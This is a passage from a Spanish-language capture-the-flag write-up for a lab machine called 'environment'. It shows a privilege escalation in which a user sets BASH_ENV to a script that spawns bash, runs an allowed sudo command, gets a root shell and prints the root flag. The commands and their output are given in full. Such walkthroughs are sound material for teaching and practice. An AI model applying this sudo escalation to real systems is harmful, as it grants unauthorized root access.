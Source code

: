 <div style="text-align: center;">
    <b><span style="color: #98FB98;">ROOT FLAG</span></b>
    <br>
    ---------------------------
</div>
 --------------------------

BASH_ENV es una variable que Bash usa para ejecutar un script antes de lanzar su shell. Entonces, voy a crear una shell interactivo y poner su ruta en la variable BASH_ENV, ejecutando /usr/bin/systeminfo con sudo usando la variable BASH_ENV

```bash
hish@environment:/usr/bin$ sudo nano /dev/shm/pwn.sh
Sorry, user hish is not allowed to execute '/usr/bin/nano /dev/shm/pwn.sh' as root on environment.
hish@environment:/usr/bin$ nano /dev/shm/pwn.sh
hish@environment:/usr/bin$ cat /dev/shm/
.gnupg/ pwn.sh  
hish@environment:/usr/bin$ cat /dev/shm/pwn.sh 
#!/bin/bash

bash
hish@environment:/usr/bin$ chmod +x /dev/shm/pwn.sh 
hish@environment:/usr/bin$ sudo BASH_ENV=/dev/shm/pwn.sh /usr/bin/systeminfo 
root@environment:/usr/bin# 
root@environment:~# ls
root.txt  scripts
root@environment:~# cat root.txt 
cbfd74d385ba733d8b932ca5578a73bd
```